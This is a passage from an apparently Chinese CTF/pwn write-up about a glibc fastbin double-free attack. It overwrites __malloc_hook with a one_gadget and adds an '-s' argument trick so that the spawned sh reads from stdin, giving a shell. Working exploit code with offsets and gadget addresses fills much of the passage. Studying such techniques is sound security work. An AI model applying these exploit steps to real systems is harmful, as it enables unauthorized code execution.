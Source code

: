 还是一样的使用 one_gadget

![](https://static.hack1s.fun/images/2021/04/01/image-20210401195356330.png)

搜索出来这三个结果

在`__malloc_hook`下断点，之后触发 malloc，看这时的寄存器状态

![](https://static.hack1s.fun/images/2021/04/01/image-20210401201516901.png)

结果这三个 gadget 的约束条件都不满足；

但是回来看到

![](https://static.hack1s.fun/images/2021/04/01/image-20210401203548451.png)

执行时 rsp+50 的位置是可控的

现在我们最后一小部分的代码是

```
malloc(0x58,p64(libc.sym.main_arena+32))

malloc(0x58,"G"*8)
malloc(0x58,"H"*8)

malloc(0x58,b"Y"*48+p64(libc.sym.__malloc_hook-36))                                                                                                                                 
malloc(0x28,b"Z"*20+p64(libc.address+one_gadget))

```

直接执行的话会提示

![](https://static.hack1s.fun/images/2021/04/01/image-20210401205651104.png)

就是说把其中`HHHHHHHH:GGGGGGGG`这个当作文件来传入 sh 了

这个位置正好是调用`sh`的`arg[1]`，解决办法的话，我们可以将其中的`GGGGGGGG`改为`-s\0`

这样就相当于是调用了`sh -s`，

看一下 bash 的手册

```
If the -s option is present, or if no arguments remain after option processing, then commands are read from the standard input.  This option allows the positional parameters to be set when invoking an  interactive  shell  or when reading input through a pipe.

```

所以加上`-s`之后调用时就不会从文件定位而是从 stdin 输入了；

这样就可以拿到一个 shell 权限

最终执行的流程

```
one_gadget = 0xe1fa1
#  one_gadget = 0xe1fad
#  one_gadget = 0xc4dbf

# Request two 0x50-sized chunks.
chunk_A = malloc(0x48, "A"*8)
chunk_B = malloc(0x48, "B"*8)

# Free the first chunk, then the second.
free(chunk_A)
free(chunk_B)
free(chunk_A)

malloc(0x48,p64(0x61))
```